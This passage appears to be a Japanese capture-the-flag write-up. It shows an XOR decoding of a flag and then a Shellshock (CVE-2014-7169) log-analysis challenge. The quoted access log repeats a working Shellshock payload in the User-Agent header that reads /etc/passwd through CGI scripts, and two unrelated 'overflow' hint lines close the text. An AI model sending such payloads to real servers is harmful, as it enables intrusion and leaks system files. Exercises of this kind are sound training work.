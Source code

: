 ```c
}
```

細かい実装はわからないが、`*pbVar4 = bVar1 ^ bVar2`のような形で文字をXORで暗号化している雰囲気がある。直前にある`"0923200802022025"`がちょうど16文字で`VUSTIq@H~]wGSBVH`の文字数と一致するので試しにXORしてみると、[フラグが出力された](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'UTF8','string':'0923200802022025'%7D,'Standard',false)&input=VlVTVElxQEh%2BXXdHU0JWSA)。

## [PW] CVE-2014-7169他 (100pts)

> アクセスログから脆弱性を特定しフラグファイル内のフラグを見つけ出してください。 フラグファイルは下記の通りです。
> /etc/PW-1
> https://pw1-prod.2025winter-cybercontest.net/
>【回答書式】 flag{n桁の半角英数記号}

ログファイルは次の通り

```
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/a.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/b.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/c.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/d.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/e.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/f.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/g.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/h.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/i.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/j.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/k.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/l.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/m.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/n.cgi HTTP/1.1" 200 2007 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/o.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/p.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/q.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/r.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/s.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/t.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/u.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/v.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/x.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
```

[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79